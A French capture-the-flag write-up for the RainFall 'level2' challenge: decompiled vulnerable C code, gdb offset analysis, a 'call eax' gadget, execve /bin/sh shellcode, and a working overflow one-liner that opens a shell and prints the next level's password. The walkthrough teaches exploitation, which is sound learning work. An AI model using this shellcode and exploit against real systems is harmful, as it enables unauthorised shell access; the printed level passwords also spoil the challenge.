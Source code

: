 # level2 :

pass : `53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77`

## Source :

```c
#include <stdio.h>
#include <stdint.h>

int		p() {  // 0x080484d4
	char	buf[64];  // ebp-0x4c | esp+0x1c / size : 0x5c-0x1c = 64
	int		local_arg;  // ebp-0xc | esp+0x5c

	fflush(stdout);
	gets(buf);
	local_arg = (int32_t)(*buf);
	if ((local_arg & 0xb0000000) == 0xb0000000) {
		printf("(%p)\n", (void *)local_arg);
		_exit(1);
	}
	puts(buf);
	return (strdup(buf));
}

int		main(int ac, char **av, char **envp) {  // 0x0804853f
	return(p());
}
```

## Recherche :

On cherche avec `peda pattern` quand les registre sont réécrit :

```sh
gdb-peda$ pattern search
Registers contain pattern buffer:
EBP+0 found at offset: 76
EIP+0 found at offset: 80
Registers point to pattern buffer:
[EAX] --> offset 0 - size ~200
[EDX] --> offset 0 - size ~200
[ESP] --> offset 84 - size ~116
Pattern buffer found at:
0x0804a1a0 : offset    0 - size  200 ([heap])
0x0804b1f3 : offset   67 - size  133 ([heap])
0x0804b603 : offset   67 - size  133 ([heap])
0xbffff25f : offset   67 - size  133 ($sp + -0x11 [-5 dwords])
References to pattern buffer found at:
0xb7fb758c : 0x0804a1a0 (/usr/lib/i386-linux-gnu/libc-2.30.so)
0xb7fb7590 : 0x0804a1a0 (/usr/lib/i386-linux-gnu/libc-2.30.so)
0xb7fb7594 : 0x0804a1a0 (/usr/lib/i386-linux-gnu/libc-2.30.so)
0xb7fb7598 : 0x0804a1a0 (/usr/lib/i386-linux-gnu/libc-2.30.so)
0xb7fb759c : 0x0804a1a0 (/usr/lib/i386-linux-gnu/libc-2.30.so)
0xbffff128 : 0x0804a1a0 ($sp + -0x148 [-82 dwords])
```

On a donc `EIP` réécrit à l'offset `80`, et `EAX` est réécrit à l'offset `0`, donc au tout début de notre chaîne. 

```sh
level2@RainFall:~$ objdump -S ./level2 | grep "call $eax"
 804835c:       e8 00 00 00 00          call   8048361 <_init+0x9>
 8048372:       e8 89 00 00 00          call   8048400 <__gmon_start__@plt>
 8048377:       e8 34 01 00 00          call   80484b0 <frame_dummy>
 804837c:       e8 4f 02 00 00          call   80485d0 <__do_global_ctors_aux>
 804843c:       e8 cf ff ff ff          call   8048410 <__libc_start_main@plt>
 8048488:       ff 14 85 50 97 04 08    call   *0x8049750(,%eax,4)
 80484cf:       ff d0                   call   *%eax
 80484e2:       e8 c9 fe ff ff          call   80483b0 <fflush@plt>
 80484ed:       e8 ce fe ff ff          call   80483c0 <gets@plt>
 8048516:       e8 85 fe ff ff          call   80483a0 <printf@plt>
 8048522:       e8 a9 fe ff ff          call   80483d0 <_exit@plt>
 804852d:       e8 be fe ff ff          call   80483f0 <puts@plt>
 8048538:       e8 a3 fe ff ff          call   80483e0 <strdup@plt>
 8048545:       e8 8a ff ff ff          call   80484d4 <p>
 8048554:       e8 69 00 00 00          call   80485c2 <__i686.get_pc_thunk.bx>
 804856c:       e8 e7 fd ff ff          call   8048358 <_init>
 804859b:       ff 94 b3 20 ff ff ff    call   *-0xe0(%ebx,%esi,4)
 80485eb:       ff d0                   call   *%eax
 8048600:       e8 00 00 00 00          call   8048605 <_fini+0x9>
 804860c:       e8 3f fe ff ff          call   8048450 <__do_global_dtors_aux>
```
Donc l'adresse `0x080484cf` fait un call au register `EAX`. Et en little endian : `\xcf\x84\x04\x08`

Maintenant, on va vouloir executer un shellcode, c'est à dire lancer un shell depuis notre programme. Soit le code `asm` suivant permettant d'exécuter un `/bin/sh`:
```nasm
.global main
main:
    push   $0xb
    pop    %eax
    xor    %esi,%esi
    push   %esi
    push   $0x68732f2f
    push   $0x6e69622f
    mov    %esp,%ebx
    xor    %ecx,%ecx
    mov    %ecx,%edx
    int    $0x80
```
 qui compilé donne le shell code suivant :
`\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80` qui fait 24 caractères.

On peut donc mettre notre sellcode au début de notre chaine la remplir pour réécrire sur l'`EIP` :

```sh
(gdb) r < <(python -c 'print "\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80"+"\x90"*(80-24)+"\xcf\x84\x04\x08"')
Starting program: /home/user/level2/level2 < <(python -c 'print "\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80"+"\x90"*(80-24)+"\xcf\x84\x04\x08"')
j
 X1�Vh//shh/bin��1ɉ�����������������������������������������������������τ
process 6666 is executing new program: /bin/dash
[Inferior 1 (process 6666) exited normally
```

On a eu `process 6666 is executing new program: /bin/dash` donc on est bon, un shell a bien été lancé. On peut passer à l'exploit.

## Exploit :

```bash
level2@RainFall:~$ (python -c 'print "\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80"+"\x90"*(80-24)+"\xcf\x84\x04\x08"'; cat) | ./level2 
j
 X1�Vh//shh/bin��1ɉ�����������������������������������������������������τ
whoami 
level3
cd ../level3
cat .pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

On peut trouver sur internet des shell codes qui fonctionnent directement comme sur cette page :
http://shell-storm.org/shellcode/files/shellcode-811.php

`(perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"."\x90"x(80-28)."\xcf\x84\x04\x08"'; cat;) | ./level2`

----

## Documentation :

* [0x0ff.info - BUFFER OVERFLOW & GDB – PART 1](https://www.0x0ff.info/2015/buffer-overflow-gdb-part1/)
* [0x0ff.info - BUFFER OVERFLOW & GDB – PART 2](https://www.0x0ff.info/2015/buffer-overflow-gdb-part-2/)
* [0x0ff.info - BUFFER OVERFLOW & GDB – PART 3](https://www.0x0ff.info/2015/buffer-overflow-gdb-part-3/)
* [NASM Tutorial](https://cs.lmu.edu/~ray/notes/nasmtutorial/)
* [hackndo - Buffer Overflow](https://beta.hackndo.com/buffer-overflow/)
![](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png)
